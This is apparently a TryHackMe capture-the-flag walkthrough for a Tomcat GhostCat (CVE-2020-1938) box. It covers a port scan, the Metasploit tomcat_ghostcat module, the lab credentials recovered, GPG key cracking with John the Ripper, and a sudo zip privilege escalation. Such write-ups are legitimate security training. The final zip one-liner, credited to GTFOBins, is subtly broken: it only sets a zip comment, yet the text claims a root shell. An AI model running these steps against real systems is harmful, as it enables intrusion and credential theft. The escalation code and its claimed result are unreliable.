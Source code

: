 # TryHackMe: Tomcat GhostCat CTF Walkthrough

## Overview

This CTF focuses on exploiting a vulnerable Apache Tomcat instance via the **GhostCat** vulnerability (CVE-2020-1938), recovering credentials through PGP decryption, and escalating privileges using misconfigured `zip` binary.

---

## Reconnaissance

### Rustscan Results

| Port | State | Service   | Details                                         |
|------|-------|-----------|--------------------------------------------------|
| 22   | open  | SSH       | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8                 |
| 53   | open  | tcpwrapped |                                                |
| 8009 | open  | ajp13     | Apache JServ Protocol v1.3                      |
| 8080 | open  | HTTP      | Apache Tomcat 9.0.30                            |

---

## Exploitation

### Vulnerability: GhostCat (Apache Tomcat AJP)

**Exploit Resource**:  
[Metasploit Module - tomcat_ghostcat](https://www.rapid7.com/db/modules/auxiliary/admin/http/tomcat_ghostcat/)

### Metasploit Commands
msf > use auxiliary/admin/http/tomcat_ghostcat
msf auxiliary(tomcat_ghostcat) > show actions
msf auxiliary(tomcat_ghostcat) > set ACTION <action-name>
msf auxiliary(tomcat_ghostcat) > show options
msf auxiliary(tomcat_ghostcat) > run

Upon execution:

    Found user: skyfuck

    Retrieved user.txt

    Password recovered: 8730281lkjlkjdqlksalks

Users Identified

    ✅ skyfuck (compromised)

    ❌ merlin (access pending)

Cracking Credentials
Step 1: Convert GPG key to hash

gpg2john tryhackme.asc > hash

Step 2: Brute-force with John the Ripper

john --wordlist=/usr/share/wordlists/rockyou.txt hash

📦 Cracked GPG password: alexandru
Decrypting Credentials

    Import key:

gpg --import tryhackme.asc

Decrypt credentials:

gpg --decrypt credentials.pgp

Extracted merlin credentials:

    asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j

Privilege Escalation
Sudo Permissions

sudo -l

Output:

User merlin may run the following commands on ubuntu:
(root : root) NOPASSWD: /usr/bin/zip

🔎 Use GTFOBins - zip for privilege escalation.
Exploit:

TF=$(mktemp -u)
echo '/bin/sh' > $TF
chmod +x $TF
sudo zip -q -z /tmp/root.zip /tmp/placeholder <<< $'unzip /tmp/root.zip -d /tmp/ && /tmp/'"$TF"

✅ Root shell obtained!
